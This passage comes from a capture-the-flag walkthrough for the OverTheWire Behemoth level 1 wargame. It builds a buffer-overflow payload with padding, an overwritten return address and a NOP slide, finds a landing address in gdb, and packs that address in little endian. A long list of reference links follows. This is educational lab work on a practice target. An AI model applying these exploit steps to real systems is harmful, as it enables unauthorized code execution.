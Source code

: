Here's how we would build it. `\x90` is the [hex] representation of the [NOP] instruction. You can really supply any number you'd like for the number of [NOP]s, but note that you'll have to be looking for them in [`gdb`][gdb]. 50 seems to work well for me (it makes them easy to find and pick out within [`gdb`][gdb]).

```
behemoth1@melinda:/tmp/cyber$ python -c "print 'A'*79 + 'BBBB' + '\x90'*50" > payload
```

Now when we throw this at [`gdb`][gdb], we can actually [examine] the current [stack pointer] and find where our [NOP]s put us. Since I used 50 [NOP]s and they are all displayed in sets of 4 (bytes), we really only need to see 50 / 4 = 12.5 ... round up, 13 bytes ahead of the [stack pointer], but let's go a little extra just for good measure. 

```
behemoth1@melinda:/tmp/cyber$ python -c "print 'A'*79 + 'BBBB' + '\x90'*50" > payload
behemoth1@melinda:/tmp/cyber$ gdb -q /behemoth/behemoth1
Reading symbols from /behemoth/behemoth1...(no debugging symbols found)...done.
(gdb) r < payload
Starting program: /games/behemoth/behemoth1 < payload
Password: Authentication failure.
Sorry.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/20x $esp
0xffffd6d0: 0x90909090  0x90909090  0x90909090  0x90909090
0xffffd6e0: 0x90909090  0x90909090  0x90909090  0x90909090
0xffffd6f0: 0x90909090  0x90909090  0x90909090  0x90909090
0xffffd700: 0x00009090  0x358a786b  0x0d939c7b  0x00000000
0xffffd710: 0x00000000  0x00000000  0x00000001  0x08048360
```

Here we see some memory, and you can see a good portion is filled with our [NOP] slide (the repetite `90`). I have the most success when I use the memory address of last line of [NOP]s (`0xffffd6f0`, at least for me).

We'll want to use this as the memory address to jump to, so it has us land right in the middle of our [NOP slide]. To do this, we have to actually supply this address in [hex], but also in [little endian].

If you've never heard of [endianness] before, [look it up](https://www.cs.umd.edu/class/sum2003/cmsc311/Notes/Data/endian.html) as usual, but it essentially determines whether bytes are stored backwards or forwards in memory. [Big endian] is what you could consider 'normal', because the hex bytes are written in proper order ... but most machines (Intel, anyway) are [little endian]. That means the _bytes_ are reversed. 

You could reverse these easily on your own, but there's also a handy [Python] function that can do it for you. I'm just showing it you because you will likely see many people use this [`pack`][pack] function 'out in the wild'. 

You can look at [the documentation](https://docs.python.org/2/library/struct.html#struct.pack), but the first argument is essentially a string format. The '<' symbol makes it [little endian], and the 'I' specifies it is an integer. So we'd run something like...

```
>>> from struct import pack
>>> pack('<I', 0xffffd6f0)
'\xf0\xd6\xff\xff'
```


[netcat]: https://en.wikipedia.org/wiki/Netcat
[Wikipedia]: https://www.wikipedia.org/
[Linux]: https://www.linux.com/
[man page]: https://en.wikipedia.org/wiki/Man_page
[PuTTY]: http://www.putty.org/
[ssh]: https://en.wikipedia.org/wiki/Secure_Shell
[Windows]: http://www.microsoft.com/en-us/windows
[virtual machine]: https://en.wikipedia.org/wiki/Virtual_machine
[OS]: https://en.wikipedia.org/wiki/Operating_system
[VMWare]: http://www.vmware.com/
[VirtualBox]: https://www.virtualbox.org/
[hostname]: https://en.wikipedia.org/wiki/Hostname
[port number]: https://en.wikipedia.org/wiki/Port_%28computer_networking%29
[Ubuntu]: http://www.ubuntu.com/
[ISO]: https://en.wikipedia.org/wiki/ISO_image
[standard streams]: https://en.wikipedia.org/wiki/Standard_streams
[read]: http://ss64.com/bash/read.html
[variable]: https://en.wikipedia.org/wiki/Variable_%28computer_science%29
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[permissions]: https://en.wikipedia.org/wiki/File_system_permissions
[redirection]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[tmp]: http://www.tldp.org/LDP/Linux-Filesystem-Hierarchy/html/tmp.html
[curl]: http://curl.haxx.se/
[cl1p.net]: https://cl1p.net/
[request]: http://www.w3.org/Protocols/rfc2616/rfc2616-sec5.html
[POST request]: https://en.wikipedia.org/wiki/POST_%28HTTP%29
[Python]: http://python.org/
[interpreter]: https://en.wikipedia.org/wiki/List_of_command-line_interpreters
[requests]: http://docs.python-requests.org/en/latest/
[urllib]: https://docs.python.org/2/library/urllib.html
[file handling with Python]: https://docs.python.org/2/tutorial/inputoutput.html#reading-and-writing-files
[bash]: https://www.gnu.org/software/bash/
[Assembly]: https://en.wikipedia.org/wiki/Assembly_language
[the stack]:  https://en.wikipedia.org/wiki/Stack_%28abstract_data_type%29
[register]: http://www.tutorialspoint.com/assembly_programming/assembly_registers.htm
[hex]: https://en.wikipedia.org/wiki/Hexadecimal
[archive file]: https://en.wikipedia.org/wiki/Archive_file
[zip file]: https://en.wikipedia.org/wiki/Zip_%28file_format%29
[gigabytes]: https://en.wikipedia.org/wiki/Gigabyte
[GB]: https://en.wikipedia.org/wiki/Gigabyte
[GUI]: https://en.wikipedia.org/wiki/Graphical_user_interface
[Wireshark]: https://www.wireshark.org/
[FTP]: https://en.wikipedia.org/wiki/File_Transfer_Protocol
[client and server]: https://simple.wikipedia.org/wiki/Client-server
[RETR]: http://cr.yp.to/ftp/retr.html
[FTP server]: https://help.ubuntu.com/lts/serverguide/ftp-server.html
[SFTP]: https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol
[SSL]: https://en.wikipedia.org/wiki/Transport_Layer_Security
[encryption]: https://en.wikipedia.org/wiki/Encryption
[HTML]: https://en.wikipedia.org/wiki/HTML
[Flask]: http://flask.pocoo.org/
[SQL]: https://en.wikipedia.org/wiki/SQL
[and]: https://en.wikipedia.org/wiki/Logical_conjunction
[Cyberstakes]: https://cyberstakesonline.com/
[cat]: https://en.wikipedia.org/wiki/Cat_%28Unix%29
[symbolic link]: https://en.wikipedia.org/wiki/Symbolic_link
[ln]: https://en.wikipedia.org/wiki/Ln_%28Unix%29
[absolute path]: https://en.wikipedia.org/wiki/Path_%28computing%29
[CTF]: https://en.wikipedia.org/wiki/Capture_the_flag#Computer_security
[Cyberstakes]: https://cyberstakesonline.com/
[OverTheWire]: http://overthewire.org/
[Leviathan]: http://overthewire.org/wargames/leviathan/
[ls]: https://en.wikipedia.org/wiki/Ls
[grep]: https://en.wikipedia.org/wiki/Grep
[strings]: http://linux.die.net/man/1/strings
[ltrace]: http://linux.die.net/man/1/ltrace
[C]: https://en.wikipedia.org/wiki/C_%28programming_language%29
[strcmp]: http://linux.die.net/man/3/strcmp
[access]: http://pubs.opengroup.org/onlinepubs/009695399/functions/access.html
[system]: http://linux.die.net/man/3/system
[real user ID]: https://en.wikipedia.org/wiki/User_identifier
[effective user ID]: https://en.wikipedia.org/wiki/User_identifier
[brute force]: https://en.wikipedia.org/wiki/Brute-force_attack
[for loop]: https://en.wikipedia.org/wiki/For_loop
[bash programming]: http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO.html
[Behemoth]: http://overthewire.org/wargames/behemoth/
[gets]: http://www.cplusplus.com/reference/cstdio/gets/
[buffer overflow]: https://en.wikipedia.org/wiki/Buffer_overflow
[try harder]: https://www.offensive-security.com/when-things-get-tough/
[segmentation fault]: https://en.wikipedia.org/wiki/Segmentation_fault
[seg fault]: https://en.wikipedia.org/wiki/Segmentation_fault
[segfault]: https://en.wikipedia.org/wiki/Segmentation_fault
[shellcode]: https://en.wikipedia.org/wiki/Shellcode
[sploit-tools]: https://github.com/SaltwaterC/sploit-tools
[Kali]: https://www.kali.org/
[Kali Linux]: https://www.kali.org/
[gdb]: https://www.gnu.org/software/gdb/
[gdb tutorial]: http://www.unknownroad.com/rtfm/gdbtut/gdbtoc.html
[payload]: https://en.wikipedia.org/wiki/Payload_%28computing%29
[peda]: https://github.com/longld/peda
[git]: https://git-scm.com/
[home directory]: https://en.wikipedia.org/wiki/Home_directory
[NOP]: https://en.wikipedia.org/wiki/NOP
[examine]: https://sourceware.org/gdb/onlinedocs/gdb/Memory.html
[stack pointer]: http://stackoverflow.com/questions/1395591/what-is-exactly-the-base-pointer-and-stack-pointer-to-what-do-they-point
[little endian]: https://en.wikipedia.org/wiki/Endianness
[big endian]: https://en.wikipedia.org/wiki/Endianness
[endianness]: https://en.wikipedia.org/wiki/Endianness
[pack]: https://docs.python.org/2/library/struct.html#struct.pack
[dash]: https://en.wikipedia.org/wiki/Almquist_shell